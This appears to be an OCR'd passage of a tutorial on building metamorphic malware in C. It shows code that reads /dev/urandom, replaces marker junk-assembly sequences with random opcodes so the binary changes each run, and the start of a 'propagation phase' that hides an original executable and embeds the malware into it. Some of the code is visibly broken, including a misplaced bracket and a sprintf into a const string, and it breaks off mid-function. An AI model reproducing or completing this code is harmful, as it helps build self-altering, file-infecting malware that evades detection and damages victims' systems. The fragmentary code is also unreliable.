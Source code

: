 ```c
// Opens file in read mode
fp = fopen("/dev/urandom", "r");
// Reads the file into the code variable in memory
fread(&digit, 1, 1, fp);
// Closes the file
fclose(fp);

return digit;
}

```
Note:
by reading /dev/urandom , some systems are considering suspicious softwares using too much of the system randomness, Also may risk returning low-quality randomness if used just after boot.
Replacement of junk
There is always the same number of junk assembly sequences spread throughout the file, and they are being replaced with different sequences of random opcodes they are always being replaced in place.

```c
for (uint64_t i = 0; i < file_len; i += 1) {

// Start of the junk ASM
if (file_data[i] >= H_PUSH && file_data[i] <= (H_PUSH + 3)) continue;
if (file_data[i + 1] >= H_PUSH && file_data[i + 1] <= (H_PUSH + 3)) continue;
if (file_data[i + 2 == H_NOP_0]) continue;
if (file_data[i + 3] == H_NOP_1) {
		
		insert_junk(file_data, i);
		
		}
	}

```
Also, when inserting the replacement junk assembly opcodes they aren’t “any random opcodes”, because this could cause the program to crash or unexpected behaviour to occur. Opcodes are chosen at random from within a certain range, which have been chosen to ensure they have no impact on the successful operation of the rest of the program code. The range is small because this is only an example. The choice and range of opcodes used could of course be expanded.

The Malware
in principle. Each time the program runs, it randomly replaces certain assembly code sequences with randomly different sequence of junk opcodes, The overall effect is that each time the program is run different sets of junk assembly instruction sequences are executed, making the code is metamorphic, but the changing opcodes don’t relate to the main program function and so the code is always changing but the main program output/effect is consistent Continue reading 3
Propagation Phase
Executes a bash command to execute and hide an original executable file and Embeds the malware in the executable.

```c

/* hide an original executable file */
void hide_file(const char *bash_code, const char *filename)
{
	JUNK_ASM;
	int cmd_len = strlen(bash_code) + strlen(filename) + 1;
	
	sprintf(bash_code, filename, filename);
}

/* Embeds the malware  */
void embed_code(uint8_t *file_data, uint32_t file_len,  const char *filename)
{
  JUNK_ASM;

```
